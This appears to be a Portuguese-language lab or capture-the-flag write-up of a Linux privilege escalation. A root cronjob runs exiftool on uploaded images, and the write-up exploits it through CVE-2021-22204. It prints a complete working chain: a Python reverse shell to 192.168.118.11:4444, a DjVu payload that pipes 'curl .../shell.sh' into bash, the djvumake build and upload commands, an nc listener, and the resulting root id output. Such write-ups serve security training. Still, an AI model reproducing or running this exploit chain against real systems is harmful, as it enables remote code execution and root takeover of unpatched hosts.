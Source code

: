 ## Privilege Escalation

### Cronjob Enumeration

Identificamos uma entrada no arquivo `/etc/crontab` que executa o script `/opt/image-exif.sh` como root a cada minuto.

```
# Exibindo o conteúdo de /etc/crontab
cat /etc/crontab
```

**Cronjob Identificado**:
```
cat /etc/crontab
# /etc/crontab: system-wide crontab
...
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* *     * * *   root    bash /opt/image-exif.sh
#
* *     * * *   root    bash /opt/image-exif.sh
```

### Script Analysis (`/opt/image-exif.sh`)

O script realiza processamento de metadados em imagens JPG usando `exiftool` e salva os dados processados em `/opt/metadata`.

```
# Exibindo o conteúdo de /opt/image-exif.sh
cat /opt/image-exif.sh
```

**Conteúdo do Script**:
```
#!/bin/bash
IMAGES='/var/www/html/subrion/uploads'
META='/opt/metadata'
FILE=$(openssl rand -hex 5)
LOGFILE="$META/$FILE"
ls $IMAGES | grep "jpg" | while read filename; do 
    exiftool "$IMAGES/$filename" >> $LOGFILE 
done
```

**Análise**: O script executa `exiftool` em cada arquivo JPG no diretório de uploads, com potencial de exploração caso o `exiftool` seja vulnerável.

### Exploração de Arbitrary Code Execution com ExifTool (CVE-2021-22204)

Descoberta de vulnerabilidade de execução de código remoto (RCE) no ExifTool, documentada em CVE-2021-22204. Utilizamos o `djvumake` para criar um arquivo malicioso no formato DjVu.

1. **Instalar Dependência**: `djvulibre-bin` para gerar o arquivo DjVu.
   ```
   sudo apt-get update && sudo apt-get install -y djvulibre-bin
   ```

2. **Criar Arquivo de Payload**:
   - `shell.sh`: Script de reverse shell em Python.
   - `exploit`: Exploit para chamar `shell.sh` remotamente.
   
   ```
   # shell.sh (conteúdo do reverse shell)
   cat << 'EOF' > shell.sh
   #!/bin/bash
   python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.118.11",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
   EOF
   ```

   ```
   # exploit (comando para executar o reverse shell via curl)
   cat << 'EOF' > exploit
   (metadata "\c${system ('curl http://192.168.118.11/shell.sh | bash')};")
   EOF
   ```

3. **Gerar Arquivo DjVu Malicioso**:
   ```
   djvumake exploit.djvu INFO=0,0 BGjp=/dev/null ANTa=exploit
   mv exploit.djvu exploit.jpg
   ```

4. **Transferir o Arquivo para o Servidor**:
   ```
   wget http://192.168.118.11/exploit.jpg -O /var/www/html/subrion/uploads/exploit.jpg
   ```

5. **Ouvir Conexão Reversa**:
   Após um minuto, o cronjob executará o payload, e a shell reversa será conectada à porta 4444.

   ```
   nc -lvnp 4444
   ```

**Resultado**:
```
# id
uid=0(root) gid=0(root) groups=0(root)
```
